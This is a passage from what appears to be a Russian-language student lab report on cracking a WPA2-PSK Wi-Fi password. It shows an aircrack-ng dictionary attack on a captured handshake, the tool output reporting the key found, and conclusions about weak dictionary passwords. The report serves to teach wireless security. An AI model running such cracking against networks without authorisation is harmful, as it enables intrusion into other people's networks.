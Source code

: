 Попробуем подобрать пароль, используя полученный пакет с рукопожатием.
Для того, что бы взлом происходил быстрее, создадим свой словарь паролей 
(dict.dic).
\begin{lstlisting}
bodrik@Bodrik-N53SV:~$ sudo aircrack-ng ./dump-01.cap -w dict.dicOpening ./dump-01.cap
Opening ./dump-01.cap
Opening ./dump-01.cap
Read 9930 packets.

#  BSSID              ESSID                     Encryption

1  28:CF:E9:84:4D:EC  Nik's Wi-Fi Network                   WPA (1 handshake)

Choosing first network as target.

Opening dump-03.cap
Reading packets, please wait...

Aircrack-ng 1.2 beta3


[00:00:00] 1 keys tested (345.36 k/s)


Current passphrase: ...                 

KEY FOUND! [ ... ]
KEY FOUND! [ ... ]
45 0D 62 F4 FC 81 69 5F D1 1C 65 80 11 8A 1B 0A 

Transient Key  : 05 01 A0 F0 28 F2 D0 99 79 2B 09 94 38 93 04 7A 
6F C3 75 6C 58 13 7C FB 22 17 99 00 8A 99 79 77 
B9 10 1C 39 DE 5C 0C 29 C5 1C 43 39 B2 06 F5 7B 
EAPOL HMAC     : E9 D0 1B 6C F3 ED A4 F6 FC 83 5D BC 3C 6A 9F 00 

\end{lstlisting}
В результате видим сообщение об успешно подобранном пароле, а так же сам пароль.

\section{Выводы}
В ходе данной работы были изучены основные возможности пакета AirCrack и 
принципы взлома WPA2 в режиме PSK. %
Данный инструмент позволяет прослушивать пакеты в беспроводной, генерировать новые, а так же осуществлять взлом пароля сети при помощи перебора по 
словарю.

В ходе работы было выяснено, что использование общеупотребимых (словарных) паролей значительно облегчает взлом беспроводной сети.